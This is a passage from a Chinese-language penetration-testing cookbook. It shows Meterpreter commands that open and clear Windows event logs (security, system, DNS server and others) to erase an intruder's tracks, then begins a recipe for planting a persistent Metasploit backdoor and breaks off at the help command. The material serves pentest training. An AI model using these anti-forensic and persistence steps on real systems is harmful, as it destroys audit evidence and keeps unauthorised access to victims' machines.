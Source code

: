4.  出于我们的目的，我们把它们都清理掉。你需要将这些一次键入：

    ```
    log = client.sys.eventlog.open('system') 
    log = client.sys.eventlog.open('security') 
    log = client.sys.eventlog.open('application') 
    log = client.sys.eventlog.open('directory service') 
    log = client.sys.eventlog.open('dns server') 
    log = client.sys.eventlog.open('file replication service')
    ```
    
5.  现在我们执行命令来清理日志文件：

    ```
    Log.clear 
    ```
    
6.  这就结束了。我们只用了这么少的命令就能清理我们的踪迹。

### 工作原理

这个秘籍中，我们使用 Meterpreter  来清理我们在目标主机上的踪迹。我们从 Meterpreter 中开始这个秘籍，并启动了 IRB（一个 Ruby 解释器 shell）。下面，我们指定了想要清理的文件，并且最后键入了`Log.clear `命令来清理日志。要记住，一旦我们黑进了某个主机，你需要在最后执行这一步。你不能在清理踪迹之后再执行更多的操作，这样只会更加更多的日志条目。

## 7.6 创建永久后门

这个秘籍中，我们会使用 Metasploit persistence 来创建永久后门。一旦你成功获得了目标机器的访问权限，你需要探索重新获得机器访问权的方式，而不需要再次黑进它。如果目标机器的用户做了一些事情来终端连接，比如重启机器，后门的作用就是允许重新建立到你机器的连接。这就是创建后门非常方便的原因，它可以让你控制目标机器的访问。

### 准备

为了执行这个秘籍，我们需要：

+ 内部网络或互联网的连接。

+ 使用 Metasploit 框架的具有漏洞的主机。

### 操作步骤

让我们开始植入我们的永久后门。你需要使用 Metasploit  攻击某个主机来获得  Meterpreter shell。你可以使用第六章的秘籍之一，来通过 Metasploit 获得目标主机的访问。

1.  一旦你通过 Metasploit 和 Meterpreter shell 获得了受害者的访问权限，等待你的 Meterpreter 显示提示符。

    ![](img/7-6-1.jpg)

2.  下面，我们需要运行 persistence，以便创建我们的后门。我们打开帮助文件：

    ```
    run persistence –h 
    ```
    
